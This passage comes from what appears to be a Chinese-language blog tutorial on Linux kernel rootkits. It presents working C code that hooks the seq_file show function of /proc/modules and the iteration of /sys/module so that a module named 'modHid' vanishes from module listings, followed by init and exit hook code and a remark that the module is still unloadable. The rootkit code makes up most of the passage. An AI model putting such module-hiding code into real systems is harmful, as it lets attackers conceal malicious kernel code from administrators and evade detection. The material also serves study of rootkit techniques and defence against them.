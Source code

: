 {% highlight c %}
#define SECRET_MODULE   "modHid"
int (*real_seq_show)(struct seq_file *seq, void *v);
int fake_seq_show(struct seq_file *seq, void *v) 
{
    int ret;
    size_t last_count, last_size;
    
    last_count = seq->count;
    ret = real_seq_show(seq, v); 

    last_size = seq->count - last_count;
    if(strnstr(seq->buf + seq->count - last_size, SECRET_MODULE, \
                last_size)){
        printk("Hiding: %s (in [/proc/modules])\n", SECRET_MODULE);
        seq->count -= last_size;
    }   

    return ret;
}
{% endhighlight %}

这里的思想是，每次先记录一下上次写到哪个地方，再写入一条记录，然后通过计算新的位置与旧位置的差来获得刚刚写入记录的长度，在这个长度中取寻找是否有`SECRET_MODULE`。

最后还是看一下入口出口函数：

{% highlight c %}
#define ROOT_PATH   "/sys/module"
#define PROC_PATH   "/proc/modules"
// in init
set_file_seq_op(show, PROC_PATH, fake_seq_show, real_seq_show);
if(!real_iterate){
    return -ENOENT;
}
// in exit
if(real_iterate){
    void *dummy;
    set_f_op(iterate, ROOT_PATH, real_iterate, dummy);
}
if(real_seq_show){
    void *dummy;
    set_file_seq_op(show, PROC_PATH, real_seq_show, dummy);
}
{% endhighlight %}

测试结果如下：

可以看到，完美地“消失”了：

![]({{ site.url }}/resources/pictures/linux-rkt-24.png)

最后，我们可以进行`rmmod modHid`操作顺利卸载模块，而不像 0000 实验中卸载出错。毕竟，这里并没有把模块从`kobject`层中删去，仅仅是在被要求显示时过滤掉了相应的信息而已。

#### All In One
